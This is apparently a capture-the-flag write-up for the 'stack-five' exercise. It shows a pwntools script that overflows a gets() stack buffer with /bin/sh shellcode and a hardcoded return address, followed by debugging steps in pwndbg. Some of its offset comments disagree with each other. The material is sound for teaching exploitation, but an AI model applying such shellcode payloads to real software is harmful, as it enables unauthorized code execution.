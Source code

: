 ## Exploit

`exploit.py`:

```python
from pwn import *
import sys

#print("A"*88, end="")
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05" # /bin/sh shellcode
padding = b'A'* (136 -len(shellcode))

sys.stdout.buffer.write(shellcode)
sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(b"\x50\xde\xff\xff\xff\x7f\x00\x00")

# OVERWRITE RIP with address 0x0000555555555277
# RAX 0x0000000000001277
# How does target binary consume data? -- gets()
# Where does the data go in memory (on the stack)? -- our 128-byte buffer[128]
# How much data do we need to get to return address? -- How far is buffer from return address. 144 bytes (total payload size)
# Where do we want to divert execution to? -- set rip to our shellcode in our buffer -- replace return address with 0x7fffffffde50
# 0x7fffffffde50

```

To reiterate and for clarity, why 136-bytes here? Well 128-bytes to fill buffer + 8-bytes for <mark style="color:blue;">`rbp`</mark> + 8-bytes for <mark style="color:blue;">`rip`</mark> address of the buffer.

Also, I was able to get my shellcode from shell-storm:

{% embed url="http://shell-storm.org/shellcode/files/shellcode-806.html" %}

Prepare our exploit for use in `pwndbg`:

```
python3 exploit.py > exploit
```

## Exploitation

Load up `pwndbg`: `gdb stack-five`

I will be using the `gets()` instruction to set my breakpoint. If you don't have it, run your program and then `disass start_level`, and you will be able to obtain the instruction.

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>
